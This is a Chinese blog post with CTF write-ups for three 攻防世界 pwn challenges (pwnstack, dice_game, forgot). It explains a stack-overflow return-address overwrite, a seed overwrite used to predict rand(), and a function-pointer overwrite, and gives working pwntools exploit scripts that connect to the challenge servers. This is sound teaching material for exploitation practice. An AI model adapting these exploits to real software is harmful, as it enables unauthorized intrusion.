 ```yaml
---
title: pwn 入门刷题
date: 2024-10-18 21:00:15
permalink: /pages/e76739/
author: 
  name: the0n3
  link: https://the0n3.top
---
```


攻防世界pwn题目

## pwnstack

下载拖到ida64里反编译

![0](/medias/00pwn/0.png)

进入到`vuln`函数，定义了一个160（0xa0）字节的缓冲区，存在一个`read`函数，会读取177（b1）个字节，导致栈溢出

![1](/medias/00pwn/1.png)

查看汇编代码，看到后门函数，函数地址放在缓冲区后覆盖栈的返回地址`0x400762`

![2](/medias/00pwn/2.png)

或者通过`shift+f12`找到`/bin/sh`字符串，再通过在`/bin/sh`地址上`ctrl+x`找到它的引用，也可以找到后门函数的定义

![3](/medias/00pwn/3.png)

![4](/medias/00pwn/4.png)

ctf wiki用一个很好的概念来理解栈的结构，如下

```txt
                                           +-----------------+
                                           |     retaddr     |
                                           +-----------------+
                                           |     saved ebp   |
                                    ebp--->+-----------------+
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                              s,ebp-0x14-->+-----------------+
```

从图中可以看出，`s`变量一共可以传入的字节大小为`14`,如果超过的话，多出的就会到`saved ebp`中，根据我的查阅`saved ebp`保存的是`栈帧`，根据栈帧确定变量的返回值，`x86`中`saved ebp`的大小为`4个字节`，`x64`中`saved ebp`的大小为`8个字节`，最后的`retaddr`就是溢出的部分，我们可以控制`retaddr`的值，将其修改为我们想要执行函数的内存地址

看一下这题的文件类型，`64`位，所以`saved ebp`的大小为`8个字节`覆盖`saved ebp`，所以我们需要填充`0xa0+8=0xa8`个字节，然后，最后填入后门函数的地址`0x400762`

![5](/medias/00pwn/5.png)

最后发送`p64`函数包裹的数据，是为了让程序认为这是一个内存地址，不然接受的就是字符`0x400762`

编写exp：

```python
from pwn import *

# 本地调试
# p = process('./pwn2')
# 远程
p = remote('61.147.171.105', 53646)
payload = b'a' * (0xa0+8) + p64(0x400762)
p.sendline(payload)
p.interactive()
```

![6](/medias/00pwn/6.png)

远程可以打通，本地打不通，这是什么原因。把后门地址改成`0x400766`时，本地和远程都可以

## dice_game

ida64反编译，分析主函数，sub_A20，sub_B28等函数

![7](/medias/00pwn/7.png)

![8](/medias/00pwn/8.png)

![9](/medias/00pwn/9.png)

分析这三个函数大概可以知道，这是一个游戏，使用当前时间生成一个种子，调用sub_A20函数使用这个种子生成50个1-6之间的随机数，等待用户输入，如果50道全对，调用sub_B28函数读取flag

在ida里可以看到buf,seed在栈中，buf长度为55，seed长度为2，在0x10位置

![10](/medias/00pwn/10.png)

可以通过buf，覆盖seed，从而控制种子，再利用题目给的libc库里定义的rand函数，就可以生成与题目一样的随机数

```python
from pwn import *
from ctypes import * # 导入ctypes库，用于调用libc库中的函数
#from LibcSearcher import *
context.log_level = 'debug'  # 设置调试模式

r = remote('61.147.171.105',54885)
libc = cdll.LoadLibrary("libc.so.6")#利用题目给的libc库中的函数rand生成与题目一样的随机数。

payload= b'a'*(0x50-0x10)+p64(0)

r.sendafter('Welcome, let me know your name: ',payload)

a=[]

for i in range(50):
    a.append(libc.rand()%6+1)
print(a)

for i in a:
    r.recv()
    print(r.recv())
    r.sendline(str(i))

r.interactive()
```

![11](/medias/00pwn/11.png)


## forgot

检测一下，32位程序，没有栈保护

![12](/medias/00pwn/12.png)

反编译分析，定义了长度为32位字节的s，作为用户名来接收，可以随便输入。定义了v3，存入了几个函数的地址

定义了长度为32的v2，使用`scanf`函数接收，没有限制长度，存在栈溢出

![13](/medias/00pwn/13.png)

根据定义的v2,v3，发现缓冲区里可以使用v2溢出覆盖v3

![14](/medias/00pwn/14.png)

在程序的最后有一处动态函数调用

![15](/medias/00pwn/15.png)

`shift+f12`跟进引用，找到`cat flag`的函数`sub_80486CC`

![16](/medias/00pwn/16.png)

所以需要把`v3[--v5]`也就是`v3[1]`的地址覆盖为`sub_80486CC`函数的地址`0x80486CC`

在这个循环中，会对输入的每一位字符进行检测，如果符合就更改v5的值，进入下一层检测，跟着他的要求做要找到合适的email格式，以及函数地址的改变，题目会变得更难，直接在第一个检测里找到不符合的字符，使每一位都不符合，这样v5就不需要改变了。在检测结束就可以调用目标函数

![17](/medias/00pwn/17.png)

在第一个检测中，检查是否是小写字母、数字，或是特定的几个符号下划线、减号、加号、点，拿大写字母绕过就可以了

```c
_BOOL4 __cdecl sub_8048702(char a1)
{
  return a1 > 96 && a1 <= 122 || a1 > 47 && a1 <= 57 || a1 == 95 || a1 == 45 || a1 == 43 || a1 == 46;
}
```

编写exp

```python
from pwn import *

payload = b'A'*0x20 + p32(0x80486cc)
# p = process('./forgot')
p = remote('61.147.171.105', 61568)
p.sendlineafter('> ','test')
p.sendlineafter('> ',payload)
p.interactive()
```




参考：

- [BUUCTF-pwn-rip(第一个栈溢出) ](https://www.cnblogs.com/Junglezt/p/17871927.html)
- [攻防世界 pwnstack writeup](https://blog.csdn.net/m0_73605862/article/details/130919537)
- [dice_game--攻防世界](https://www.cnblogs.com/Mua2Uncle2blog/p/15505565.html)
- [攻防世界（PWN）forgot](https://blog.csdn.net/weixin_43876357/article/details/109028936)
- [攻防世界进阶区forgot](https://sphandsomejack.github.io/2020/02/17/forgot/)